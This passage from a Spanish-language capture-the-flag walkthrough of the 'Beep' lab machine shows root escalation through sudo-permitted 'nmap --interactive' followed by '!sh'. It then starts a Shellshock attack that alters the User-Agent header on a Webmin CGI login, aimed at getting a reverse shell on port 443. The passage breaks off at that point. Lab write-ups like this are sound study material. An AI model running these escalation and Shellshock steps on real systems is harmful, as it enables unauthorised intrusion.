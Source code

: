 ```bash
sudo -l
```

Aqui vemos que tenemos derechos de ejecutar como el usuario root muchos binarios si proporcionar contraseña. Entre ellos

- /bin/chown
- /bin/chmod
- /sbin/service
- /usr/bin/nmap

Aqui tiramos por el binario de nmap

```bash
nmap --version
#Output
4.11

sudo nmap --interactive
!sh
whoami
#Output 
root
```

Ya estamos root y podemos leer las flags.

### Otra forma de rootear la maquina {-}

Tambien podriamos rootear la maquina mediante un shellshock attack.

Si vamos a la url de login del puerto 10000 `https://10.10.10.7:10000/session_login.cgi`, vemos que el fichero es un fichero con extension `.cgi`.
Un shellshock attack pasa por burlar el user-agent de la peticion. Para esto utilizamos Burpsuite.

1. Una vez interceptada la peticion a la url de login.cgi, cambiamos la cabezera del User-Agent de la siguiente forma:


![Bee-shellshock-reverse-shell](../assets/images/Beep-shellshock-reverse-shell.png) 
1. Nos ponemos en escucha por el puerto 443
